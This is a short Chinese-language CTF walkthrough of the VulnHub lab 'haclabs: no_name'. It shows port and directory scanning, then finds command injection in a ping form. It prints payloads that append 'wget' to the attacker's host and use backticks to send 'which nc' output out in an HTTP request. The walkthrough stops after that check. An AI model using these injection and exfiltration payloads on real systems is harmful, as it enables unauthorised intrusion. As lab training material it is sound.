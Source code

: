 # haclabs: no_name

2024-5-25 https://www.vulnhub.com/entry/haclabs-no_name,429/

difficulty: Beginner/intermediate

## IP

192.168.5.29

## Scan

Open Port -> 21,22,80

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

gobuster 得到 2 个页面链接：

```
http://192.168.5.29/index.php
http://192.168.5.29/admin
```

/admin 打不开。

/index.php 是一个提交内容页面，输入框中输入一个字符，显示 xxx ping execute，应该是后台在做 ping 操作，这里可能存在 RCE：

先进行下测试，在 kali 上使用 python 搭建一个 web 服务，然后在输入框中输入下面信息，点击提交：

```
127.0.0.1;wget http://192.168.5.3/
```

可以在 python 的控制台中看到，访问记录，证明 RCE 命令能够执行，但是就是没有消息输出，我们可以使用 http 请求把返回结果带出来。

看看目标机器上有没有 nc:

```
127.0.0.1;nc=`which nc`;wget "http://192.168.5.3$nc"
```
